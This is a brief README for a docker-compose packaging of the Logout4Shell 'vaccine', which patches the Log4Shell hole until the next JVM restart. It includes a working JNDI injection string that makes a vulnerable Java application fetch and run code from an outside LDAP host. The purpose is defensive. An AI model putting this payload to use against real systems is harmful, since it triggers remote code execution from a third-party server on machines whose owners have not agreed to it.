 # log4j-fix
Minimal docker-compose version of [Logout4Shell](https://github.com/Cybereason/Logout4Shell).

Currently deployed on [log4j-fix.de](https://log4j-fix.de/).

**Use it on your own risk** by triggering a log-entry with `${jndi:ldap://log4j-fix.de/a}`.
As stated on Logout4Shell, this patch is not persistent (only works until the next jvm-restart).
